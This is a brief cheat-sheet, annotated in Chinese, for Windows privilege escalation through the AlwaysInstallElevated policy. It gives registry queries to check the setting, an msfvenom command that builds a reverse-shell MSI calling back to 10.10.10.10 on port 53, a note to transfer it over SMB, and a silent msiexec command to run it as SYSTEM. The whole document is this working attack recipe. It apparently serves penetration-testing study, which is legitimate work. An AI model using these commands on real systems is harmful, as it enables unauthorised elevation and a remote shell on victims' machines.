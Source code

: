 # AlwaysInstallElevated

> **AlwaysInstallElevated**\
> **0x1**

```python
1. 查询（看有没有0x1）
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

2. 生成msi
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
传递
用smb即可
安装
3. msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
